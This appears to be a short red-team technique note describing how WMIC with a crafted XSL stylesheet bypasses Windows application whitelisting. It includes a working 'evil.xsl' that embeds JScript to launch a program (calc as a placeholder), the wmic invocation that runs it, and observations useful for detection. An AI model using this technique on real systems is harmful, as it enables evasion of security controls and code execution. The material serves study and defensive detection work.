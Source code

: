 # Application Whitelisting Bypass with WMIC and XSL

Another application whitelist bypassing technique discovered by Casey @subTee, similar to squiblydoo:

{% page-ref page="t1117-regsvr32-aka-squiblydoo.md" %}

## Execution

Define the XSL file containing the jscript payload:

{% code title="evil.xsl" %}
```csharp
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
    <ms:script implements-prefix="user" language="JScript">
    <![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("calc");
    ]]> </ms:script>
</stylesheet>
```
{% endcode %}

Invoke any wmic command now and specify /format pointing to the evil.xsl:

{% code title="attacker@victim" %}
```csharp
wmic os get /FORMAT:"evil.xsl"
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-04-10-22-05-24.png)

## Observation

Calculator is spawned by svchost.exe:

![](../../.gitbook/assets/screenshot-from-2019-04-10-21-57-52.png)

## References

{% embed url="http://subt0x11.blogspot.com/2018/04/wmicexe-whitelisting-bypass-hacking.html" caption="" %}

